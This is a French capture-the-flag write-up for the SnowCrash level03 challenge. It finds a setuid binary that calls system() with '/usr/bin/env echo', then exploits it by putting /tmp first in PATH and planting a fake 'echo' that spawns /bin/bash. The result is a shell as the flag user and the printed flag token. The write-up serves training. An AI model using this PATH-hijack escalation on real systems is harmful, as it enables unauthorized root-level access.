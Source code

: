 # LEVEL 03

### Reconnaissance

En se connectant au level03, on tombe sur un binaire qui possède des droits SUID:

```
$ level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
$ level03@SnowCrash:~$ ls -la level03 
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
### Exploitation

Quand on le lance, la sortie nous donne "Exploit me".

On regarde les strings du binaire:
```
$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

Et avec un débugeur, on peux voir qu'il y a un appel a system avec en argument:
```
ESP: 0xffffcf70 --> 0x80485e0 ("/usr/bin/env echo Exploit me")

0x80484fe <main+90>:	call   0x80483b0 <system@plt>
```

Pour l'exploitation, on va modifier le PATH de facon a ce que notre commande echo soit exécuté et pas celle du system:

```
level03@SnowCrash:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$ PATH=/tmp:$PATH
level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$ export PATH
```
Ensuite on va creer notre propre commande echo:

```
level03@SnowCrash:~$ echo "/bin/bash" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ ./level03 
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
flag03@SnowCrash:~$ exit
```

